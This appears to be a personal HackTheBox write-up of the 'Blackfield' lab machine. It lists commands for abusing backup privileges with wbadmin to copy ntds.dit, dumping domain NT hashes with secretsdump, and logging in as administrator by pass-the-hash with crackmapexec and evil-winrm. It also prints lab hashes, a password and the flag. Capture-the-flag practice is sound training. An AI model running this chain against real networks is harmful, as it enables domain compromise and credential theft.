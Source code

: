 
Now  i going to follow this post as ippsec walkthrough was not able to setup by meeeeeeeeeeeeeeeeeeeee.
```
cme smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d' --shares
```
![[Pasted image 20231119210826.png]]

```
cd \\10.10.10.192\C$\Windows\Temp
```

```
mkdir CFX
```

```
 wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
 .dit -quiet
```


![[Pasted image 20231119211521.png]]
Finally able to see this happening after hours of failing it.

```
 wbadmin get versions
```
![[Pasted image 20231119211802.png]]

```
wbadmin start recovery -version:11/19/2023-23:44 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet
```
![[Pasted image 20231119212537.png]]

Let's see if we can download the file
```
download ntds.dit
```
![[Pasted image 20231119213747.png]]


```
reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
![[Pasted image 20231119221526.png]]

As i was not able to download the file using smb due to file size or what i don't know but i simply copy the file into profile and mount it so that i will copy from there.
```
smbclient \\\\10.10.10.192\\C$ -U 'svc_backup' --pw-nt-hash '9658d1d1dcd9250115e2205d9f48400d'
```
![[Pasted image 20231119222804.png]]

Note i have to change the password again for the audit account as it's 2nd day for the box 
```
mount -t cifs -o 'username=audit2020,password=#00^BlackKnight' //10.10.10.192/profiles$ /mnt
```

![[Pasted image 20231119225456.png]]

I have copied all the files successfully let's see if we can run the secretdump and get the hashes finally.
lsass.zip hashes didn't work cuz in the note it was written they are either changing the password or excrypted.

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:5ce8284617222d67c2eaee0be7ec3aa5:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

Let's try evil-winrm or pysexec or something on those line using he hash.
```
cme smb 10.10.10.192 -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee' --shares
```
![[Pasted image 20231119230228.png]]

```
evil-winrm -i 10.10.10.192 -P 5985 -u 'administrator' -H '184fb5e5178480be64824d4cd53b99ee'
```

![[Pasted image 20231119230456.png]]
```
4375a629c7c67c8e29db269060c955cb
```

We have pwned the box but i would have gone with the .dll hijacking and see if it works but i want to learn this way as i have learnt that method in the past.

Kudos to this blog for helping showing me the light  when i was stuck in the hell 
https://coldfusionx.github.io/posts/Blackfield-HTB/
